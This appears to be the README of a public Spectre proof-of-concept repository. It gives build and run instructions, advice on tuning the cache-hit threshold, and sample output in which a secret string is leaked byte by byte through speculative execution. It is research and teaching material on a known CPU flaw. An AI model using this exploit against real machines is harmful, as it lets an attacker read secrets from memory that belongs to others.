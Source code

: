 # SpectrePoC

Proof of concept code for the Spectre CPU exploit.

## Attribution

The source code originates from the example code provided in the "Spectre Attacks: Exploiting Speculative Execution" paper found here:

https://spectreattack.com/spectre.pdf

The source code in this repository was conveniently provided by Erik August's gist, found here: https://gist.github.com/ErikAugust/724d4a969fb2c6ae1bbd7b2a9e3d4bb6

## Building

The project can be built with GNU Make and GCC.

On debian these are included in the `build-essential` metapackage.

Building is as easy as:

`cd SpectrePoC`

`make`

The output binary is `./spectre.out`.

If you want to build it manually, make sure to disable all optimisations (aka, don't use -O2), as it will break the program.

## Executing

To run specter with the example secret string "The Magic Words are Squeamish Ossifrage." as the target, simply run `./spectre.out` with no command line arguments.

If desired, a custom target address and length can be given as the first and second command line arguments, respectively.

## Tweaking

If you're getting lackluster results, you may need to tweak the `CACHE_HIT_THRESHOLD`. This can be done by chaing the line
`#define CACHE_HIT_THRESHOLD (80)`.

While a value of 80 appears to work for most desktop CPUs, a larger value may be required for slower CPUs. For example, on my AMD GX-412TC SOC, I required a value of 300 to get a good result.

## Example output

The following was output on an AMD GX-412TC SOC, with a `CACHE_HIT_THRESHOLD` of 300:

`./spectre.out:`

```
Reading 40 bytes:
Reading at malicious_x = 0xffffffffffdfed78... Success: 0x54=’T’ score=2
Reading at malicious_x = 0xffffffffffdfed79... Success: 0x68=’h’ score=2
Reading at malicious_x = 0xffffffffffdfed7a... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfed7b... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfed7c... Success: 0x4D=’M’ score=2
Reading at malicious_x = 0xffffffffffdfed7d... Success: 0x61=’a’ score=2
Reading at malicious_x = 0xffffffffffdfed7e... Success: 0x67=’g’ score=2
Reading at malicious_x = 0xffffffffffdfed7f... Unclear: 0x69=’i’ score=997 (second best: 0x75 score=979)
Reading at malicious_x = 0xffffffffffdfed80... Unclear: 0x63=’c’ score=999 (second best: 0xC2 score=975)
Reading at malicious_x = 0xffffffffffdfed81... Unclear: 0x20=’ ’ score=998 (second best: 0x15 score=977)
Reading at malicious_x = 0xffffffffffdfed82... Unclear: 0x57=’W’ score=998 (second best: 0xB8 score=972)
Reading at malicious_x = 0xffffffffffdfed83... Unclear: 0x6F=’o’ score=994 (second best: 0xC3 score=974)
Reading at malicious_x = 0xffffffffffdfed84... Unclear: 0x72=’r’ score=997 (second best: 0xFC score=972)
Reading at malicious_x = 0xffffffffffdfed85... Unclear: 0x64=’d’ score=997 (second best: 0xB7 score=975)
Reading at malicious_x = 0xffffffffffdfed86... Unclear: 0x73=’s’ score=997 (second best: 0x75 score=977)
Reading at malicious_x = 0xffffffffffdfed87... Unclear: 0x20=’ ’ score=998 (second best: 0xB7 score=975)
Reading at malicious_x = 0xffffffffffdfed88... Unclear: 0x61=’a’ score=999 (second best: 0xCE score=976)
Reading at malicious_x = 0xffffffffffdfed89... Unclear: 0x72=’r’ score=996 (second best: 0xB7 score=976)
Reading at malicious_x = 0xffffffffffdfed8a... Unclear: 0x65=’e’ score=998 (second best: 0x1B score=978)
Reading at malicious_x = 0xffffffffffdfed8b... Unclear: 0x20=’ ’ score=996 (second best: 0xC2 score=965)
Reading at malicious_x = 0xffffffffffdfed8c... Unclear: 0x53=’S’ score=995 (second best: 0x7A score=967)
Reading at malicious_x = 0xffffffffffdfed8d... Unclear: 0x71=’q’ score=996 (second best: 0x6A score=968)
Reading at malicious_x = 0xffffffffffdfed8e... Unclear: 0x75=’u’ score=999 (second best: 0xB7 score=966)
Reading at malicious_x = 0xffffffffffdfed8f... Unclear: 0x65=’e’ score=997 (second best: 0xFA score=966)
Reading at malicious_x = 0xffffffffffdfed90... Unclear: 0x61=’a’ score=995 (second best: 0xA1 score=969)
Reading at malicious_x = 0xffffffffffdfed91... Unclear: 0x6D=’m’ score=995 (second best: 0x8B score=963)
Reading at malicious_x = 0xffffffffffdfed92... Unclear: 0x69=’i’ score=998 (second best: 0x1B score=966)
Reading at malicious_x = 0xffffffffffdfed93... Unclear: 0x73=’s’ score=996 (second best: 0x24 score=960)
Reading at malicious_x = 0xffffffffffdfed94... Unclear: 0x68=’h’ score=999 (second best: 0x27 score=964)
Reading at malicious_x = 0xffffffffffdfed95... Unclear: 0x20=’ ’ score=994 (second best: 0xCE score=965)
Reading at malicious_x = 0xffffffffffdfed96... Unclear: 0x4F=’O’ score=997 (second best: 0xEF score=963)
Reading at malicious_x = 0xffffffffffdfed97... Unclear: 0x73=’s’ score=993 (second best: 0x48 score=976)
Reading at malicious_x = 0xffffffffffdfed98... Unclear: 0x73=’s’ score=997 (second best: 0xB7 score=973)
Reading at malicious_x = 0xffffffffffdfed99... Unclear: 0x69=’i’ score=998 (second best: 0xC8 score=962)
Reading at malicious_x = 0xffffffffffdfed9a... Unclear: 0x66=’f’ score=994 (second best: 0xFA score=966)
Reading at malicious_x = 0xffffffffffdfed9b... Unclear: 0x72=’r’ score=995 (second best: 0x3D score=968)
Reading at malicious_x = 0xffffffffffdfed9c... Unclear: 0x61=’a’ score=994 (second best: 0x48 score=971)
Reading at malicious_x = 0xffffffffffdfed9d... Unclear: 0x67=’g’ score=997 (second best: 0xFA score=972)
Reading at malicious_x = 0xffffffffffdfed9e... Unclear: 0x65=’e’ score=994 (second best: 0x59 score=959)
Reading at malicious_x = 0xffffffffffdfed9f... Unclear: 0x2E=’.’ score=995 (second best: 0x8B score=966)
```

## Contributing

Feel free to add your results to the "Results" issue. Include your `CACHE_HIT_THRESHOLD`, OS details, CPU details like vendor Id, family, model name, stepping, microcode, Mhz, and cache size. These can be found by running `uname -a` and `cat /proc/cpuinfo`.
